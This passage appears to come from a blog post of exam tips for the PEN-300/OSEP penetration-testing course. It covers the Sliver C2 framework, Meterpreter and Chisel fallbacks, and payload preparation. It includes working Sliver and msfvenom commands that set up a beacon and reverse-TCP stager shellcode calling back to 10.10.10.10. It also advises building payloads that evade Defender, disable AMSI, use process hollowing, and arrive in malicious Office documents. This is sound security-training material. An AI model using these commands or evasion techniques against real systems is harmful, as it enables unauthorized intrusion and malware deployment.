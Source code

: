 As great as Sliver can be with its usability, it can also cause issues with some payload execution methods you may want to use. With all armory extensions installed, Sliver executables or shellcode may balloon to anywhere between 10 to 20 MB, which will almost certainly cause issues with your process injection payloads. I personally mitigated this issue within my primary payload by starting an `msfvenom`-compatible stager listener like this:

```
profiles new beacon --mtls 10.10.10.10:443 --format shellcode primary-payload
stage-listener -u tcp://10.10.10.10:8080 -p primary-payload --prepend-size
```

And then generated the stager shellcode which was small enough to be placed in a process hollowing or any other process injection payload using `msfvenom`:

```
msfvenom -p windows/x64/custom/reverse_tcp LHOST=10.10.10.10 LPORT=8080 -f raw -o sliver.bin
```

While this was enough for me to get by within most lab networks, this caused issues when trying to establish an implant in a segmented network. If we decide to use a named pipe or TCP listener for pivoting, we won't be able to easily use a stager such as that, because stager listeners in Sliver do not work well with port forwarding. 
#### Know Your C2 Framework

It is imperative that you practice your labs with the C2 you are planning to use on your exam. It's the only surefire way to identify the framework's deficiencies and stability issues that may come up. It is also your opportunity to get familiar with using its different features. Exam time is not the best time to be learning your C2. You may be fine with something that is as documented and mature as Metasploit, but many other open-source C2's are not documented as well (looking at you, Sliver), so you have to rely more on your own notes and experience.
#### Have a Backup Plan

No C2 is perfect, so you should accept that and have a contingency plan in place to use a different one in case your primary fails. For me that meant having Meterpreter commands on standby for pivoting into segmented networks and using [Chisel](https://github.com/jpillora/chisel) for SOCKS proxying if the Sliver proxy broke tooling like `evil-winrm`, which it [did](https://github.com/BishopFox/sliver/issues/728).

![](https://computertroubleshooters.co.uk/wp-content/uploads/2021/08/shoot-your-computer-1030x738-1.jpg)
### Preparing Payloads

#### What You Need

Make sure that you have payloads prepared ahead of time for your exam. You will need PowerShell payloads that can evade Windows Defender and disable AMSI, as well as a more evasive payload for systems with tighter monitoring, such as those that perform process hollowing. Additionally, make sure you have notes for creating malicious Office documents, because you will need them on the exam. 
#### Course Payloads

The PEN-300 course will start you off with basic payloads and then end with more evasive ones. If you follow the course and replicate the evasive payloads you are taught, you will have all that is necessary to pass the exam. In some instances you may want to add additional measures such as retrieving shellcode from a web server and/or encrypting it.
#### Free Payloads
